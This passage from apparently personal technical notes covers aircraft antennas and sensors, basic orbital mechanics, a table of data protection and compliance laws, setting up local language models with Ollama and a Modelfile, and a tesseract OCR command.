- EMERGENCY STATIC PROBE – The emergency static ports measure static (ambient) air pressure for use in emergency.
- TAT PROBE – TAT probe measures the temperature of airflow through the sensor.
- LOC – The Localizer is a component of ILS that provides lateral guidance to the pilot during the approach.
- GLIDE – The glide slope is a component of ILS that provides vertical guidance to the pilot during the approach.
- MARKER – The marker beacon antenna receives signals from marker beacon ground stations.
- ELT – The emergency locator transmitter (ELT) antenna sends radio signals in the very high frequency (VHF) and ultra high frequency (UHF) ranges. The emergency locator transmitter (ELT) antenna transmits 406 Mhz, 121.5 Mhz, and 243 Mhz signals.
- RADIO ALTIMETER – The RA antennas are usually on the bottom of the fuselage. The transmit antenna sends radio frequency (RF) signals to the ground. The receive antenna sends reflected RF signals to the receiver circuits of the RA receiver/transmitter.
- DME – The DME antennas transmit and receive DME signals. The antennas transmit signals to the ground stations. They then receive the reply signals from the DME ground station and send them to the interrogator.
- VOR – The VOR antenna receives RF signals in the frequency range of 108 MHz to 117.95 MHz. The antenna receives VOR and localizer frequencies. The VOR/LOC antenna sends VOR signals to both VOR/MB receivers.
- ADF – The ADF antenna receives electromagnetic signals from ground stations. The sense antenna receives the electrical part of the signal. The loop antenna receives the magnetic part of the ground station signal.
- SATCOM – for satellite communication using inmarsat or iridium


# Space

## OSINT

https://www.n2yo.com/
https://www.amsat.org/amsat/
https://www.orbtrack.org/

## Design

[Astrodynamics Formulas](./astrodynamics.html)

### Kepler's laws of planetary motion

Derived from Newton's laws, assuming that the orbiting body is subject only to the gravitational force of the central body

- The orbit of every planet is an ellipse with the Sun at one of the foci.
- A line joining a planet and the Sun sweeps out equal areas during equal intervals of time.
- The squares of the orbital periods of planets are directly proportional to the cubes of the semi-major axis of the orbits.

### Orbital Inclination

Orbital inclination measures the tilt of an object's orbit around a celestial body.
It is the angle between a reference plane and the orbital plane or axis of direction of the orbiting object.
For a satellite orbiting the Earth the reference plane is Earth's equatorial plane.
An inclination of exactly 90° is a polar orbit, in which the orbiting object passes over the poles of the central body.

### Azimuth

An azimuth is the angular measurement in a spherical coordinate system which represents the horizontal angle from a cardinal direction, most commonly north.

### Azimuth


## Sattelite Tacking

## Security

https://www.spacesecurity.info/


| name | acronym | category | jurisdiction | description | reference |
| ---- | ---- | ---- | ---- | ---- | ---- |
| Payment Card Industry Data Security Standard | PCI DSS | finance | United States | The Payment Card Industry Data Security Standard (PCI DSS) is a proprietary information security standard for organizations that handle branded credit cards from the major card schemes including Visa, MasterCard, American Express, Discover, and JCB. | "https://en.wikipedia.org/wiki/Payment_Card_Industry_Data_Security_Standard" |
| Health Insurance Portability and Accountability Act | HIPAA | medical | United States | The Health Insurance Portability and Accountability Act of 1996 (HIPAA) was enacted by the United States Congress and signed by President Bill Clinton in 1996. It has been known as the Kennedy–Kassebaum Act or Kassebaum-Kennedy Act after two of its leading sponsors. Title I of HIPAA protects health insurance coverage for workers and their families when they change or lose their jobs. Title II of HIPAA, known as the Administrative Simplification (AS) provisions, requires the establishment of national standards for electronic health care transactions and national identifiers for providers, health insurance plans, and employers. | https://en.wikipedia.org/wiki/Health_Insurance_Portability_and_Accountability_Act |
| Family Educational Rights and Privacy Act | FERPA | education | United States | The Family Educational Rights and Privacy Act of 1974 (FERPA) is a United States federal law that gives parents access to their child's education records, an opportunity to seek to have the records amended, and some control over the disclosure of information from the records. With several exceptions, schools must have a student's consent prior to the disclosure of education records after that student is 18 years old. The law applies only to educational agencies and institutions that receive funding under a program administered by the U.S. Department of Education. Other regulations under this act, effective starting January 3, 2012, allow for greater disclosures of personal and directory student identifying information and regulate student IDs and e-mail addresses. | https://en.wikipedia.org/wiki/Family_Educational_Rights_and_Privacy_Act |
| Sarbanes–Oxley Act | SOX | finance | United States | The Sarbanes–Oxley Act of 2002 (SOX) is a United States federal law that set new or enhanced standards for all U.S. public company boards, management and public accounting firms. There are also a number of provisions of the Act that also apply to privately held companies, for example the willful destruction of evidence to impede a Federal investigation. | https://en.wikipedia.org/wiki/Sarbanes%E2%80%93Oxley_Act |
| Gramm–Leach–Bliley Act | GLBA | finance | United States | The Gramm–Leach–Bliley Act (GLBA) is an act of the 106th United States Congress. It repealed part of the Glass–Steagall Act of 1933, removing barriers in the market among banking companies, securities companies and insurance companies that prohibited any one institution from acting as any combination of an investment bank, a commercial bank, and an insurance company. With the bipartisan passage of the Gramm–Leach–Bliley Act, commercial banks, investment banks, securities firms, and insurance companies were allowed to consolidate. Furthermore, it failed to give to the SEC or any other financial regulatory agency the authority to regulate large investment bank holding companies. | https://en.wikipedia.org/wiki/Gramm%E2%80%93Leach%E2%80%93Bliley_Act |
| Personal Information Protection and Electronic Documents Act | PIPEDA | privacy | Canada | The Personal Information Protection and Electronic Documents Act (PIPEDA) is a Canadian law relating to data privacy. It governs how private sector organizations collect, use and disclose personal information in the course of commercial business. In addition, the Act contains various provisions to facilitate the use of electronic documents. PIPEDA became law on 13 April 2000 to promote consumer trust in electronic commerce. The act was also intended to reassure the European Union that the Canadian privacy law was adequate to protect the personal information of European citizens. |"https://en.wikipedia.org/wiki/Personal_Information_Protection_and_Electronic_Documents_Act |
| Data Protection Act 1998 | DPA | privacy | United Kingdom | The Data Protection Act 1998 (DPA) is an Act of Parliament of the United Kingdom of Great Britain and Northern Ireland which defines UK law on the processing of data on identifiable living people. It is the main piece of legislation that governs the protection of personal data in the UK. Although the Act itself does not mention privacy, it was enacted to bring British law into line with the EU data protection directive of 1995 which required Member States to protect people's fundamental rights and freedoms and in particular their right to privacy with respect to the processing of personal data. In practice it provides a way for individuals to control information about themselves. Most of the Act does not apply to domestic use, for example keeping a personal address book. Anyone holding personal data for other purposes is legally obliged to comply with this Act, subject to some exemptions. The Act defines eight data protection principles. It also requires companies and individuals to keep personal information to themselves. | https://en.wikipedia.org/wiki/Data_Protection_Act_1998 |
| Children's Online Privacy Protection Act | COPPA | privacy | United States | The Children's Online Privacy Protection Act of 1998 (COPPA) is a United States federal law that applies to the online collection of personal information by persons or entities under U.S. jurisdiction from children under 13 years of age. It details what a website operator must include in a privacy policy, when and how to seek verifiable consent from a parent or guardian, and what responsibilities an operator has to protect children's privacy and safety online including restrictions on the marketing to those under 13. While children under 13 can legally give out personal information with their parents' permission, many websites disallow underage children from using their services altogether due to the amount of cash and work involved in the law compliance. | https://en.wikipedia.org/wiki/Children%27s_Online_Privacy_Protection_Act |
| California Security Breach Information Act | CA SB-1386 | privacy | United States, California | In the United States, the California Security Breach Information Act (SB-1386) is a California state law requiring organizations that maintain personal information about individuals to inform those individuals if the security of their information is compromised. The Act stipulates that if there's a security breach of a database containing personal data, the responsible organization must notify each individual for whom it maintained information. The Act, which went into effect July 1, 2003, was created to help stem the increasing incidence of identity theft. | https://en.wikipedia.org/wiki/California_S.B._1386 |
| California Online Privacy Protection Act | OPPA | privacy | United States, California | The California Online Privacy Protection Act of 2003 (OPPA), effective as of July 1, 2004, is a California State Law. According to this law, operators of commercial websites that collect Personally identifiable information from California's residents are required to conspicuously post and comply with a privacy policy that meets certain requirements. | https://en.wikipedia.org/wiki/Online_Privacy_Protection_Act |
| Data Protection Directive | Directive 95/46/EC | privacy | European Union | The Data Protection Directive (officially Directive 95/46/EC on the protection of individuals with regard to the processing of personal data and on the free movement of such data) is a European Union directive adopted in 1995 which regulates the processing of personal data within the European Union. It is an important component of EU privacy and human rights law. | https://en.wikipedia.org/wiki/Data_Protection_Directive |
| Directive on Privacy and Electronic Communications | Directive 2002/58/EC | privacy | European Union | Directive 2002/58 on Privacy and Electronic Communications, otherwise known as E-Privacy Directive, is an EU directive on data protection and privacy in the digital age. It presents a continuation of earlier efforts, most directly the Data Protection Directive. It deals with the regulation of a number of important issues such as confidentiality of information, treatment of traffic data, spam and cookies. This Directive has been amended by Directive 2009/136, which introduces several changes, especially in what concerns cookies, that are now subject to prior consent. | https://en.wikipedia.org/wiki/Directive_on_Privacy_and_Electronic_Communications |
| General Data Protection Regulation | GDPR | privacy | EU & EU Data Extra-Territorial Applicability | The General Data Protection Regulation (GDPR) (EU) 2016/679 is a regulation in EU law on data protection and privacy for all individuals within the European Union (EU) and the European Economic Area (EEA). It also addresses the export of personal data outside the EU and EEA. The GDPR aims primarily to give control to citizens and residents over their personal data and to simplify the regulatory environment for international business by unifying the regulation within the EU.\r\n\r\nSuperseding the Data Protection Directive 95/46/EC, the regulation contains provisions and requirements pertaining to the processing of personally identifiable information of data subjects inside the European Union, and applies to all enterprises, regardless of location, that are doing business with the European Economic Area. Business processes that handle personal data must be built with data protection by design and by default, meaning that personal data must be stored using pseudonymisation or full anonymisation, and use the highest-possible privacy settings by default, so that the data is not available publicly without explicit consent, and cannot be used to identify a subject without additional information stored separately. No personal data may be processed unless it is done under a lawful basis specified by the regulation, or if the data controller or processor has received explicit, opt-in consent from the data's owner. The data owner has the right to revoke this permission at any time. | https://www.eugdpr.org/ |


# Artifical Inteligence (AI)

## Large Language Models (LLM)

### ollama

https://ollama.com/


```sh
curl -fsSL https://ollama.com/install.sh | sh
```

```sh
ollama pull MODEL_NAME
ollama run MODEL_NAME
ollama list
```

### ollama and huggingface

https://huggingface.co/

create Modelfile

```txt
# Modelfile
FROM "./capybarahermes-2.5-mistral-7b.Q4_K_M.gguf"

PARAMETER stop "<|im_start|>"
PARAMETER stop "<|im_end|>"

TEMPLATE """
<|im_start|>system
{{ .System }}<|im_end|>
<|im_start|>user
{{ .Prompt }}<|im_end|>
<|im_start|>assistant
"""
```

```sh
ollama create my-own-model -f Modelfile
ollama run my-own-model
```


#  Optical Character Recognition (OCR)

```sh
tesseract -l eng INPUT.png OUTPUT.txt
```

[Python OCR with tesseract](./programming/python/py_ocr.py)

